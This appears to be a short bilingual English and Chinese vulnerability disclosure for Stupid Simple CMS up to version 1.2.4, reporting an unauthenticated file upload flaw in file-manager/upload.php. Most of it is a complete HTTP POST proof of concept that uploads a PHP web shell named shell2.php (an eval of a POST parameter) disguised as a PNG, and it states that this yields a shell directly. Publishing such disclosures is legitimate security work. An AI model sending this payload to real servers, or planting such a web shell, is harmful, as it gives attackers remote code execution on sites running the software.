 product： Stupid Simple CMS ( Blogger )

download link： https://github.com/codelyfe/Stupid-Simple-CMS

version：<=1.2.4

POC:
```shell
POST http://127.0.0.1/file-manager/upload.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 218
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
Accept: */*
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.101 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypgrUEkuaER8vFmOt
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/file-manager/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundarypgrUEkuaER8vFmOt
Content-Disposition: form-data; name="file"; filename="shell2.php"
Content-Type: image/png

<?php eval(@$_POST['password1']);?>
------WebKitFormBoundarypgrUEkuaER8vFmOt--
```
You can getshell directly.  

Code audit found that the file upload interface has no authentication measures, which can lead to arbitrary file upload getshell.

可以直接getshell
代码审计发现文件上传接口无鉴权措施，可导致任意文件上传getshell
![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312132216678.png)

 Local tests can be done by getshell:
 本地测试可以getshell：
 ![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312132306848.png)
 ![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312132217481.png)
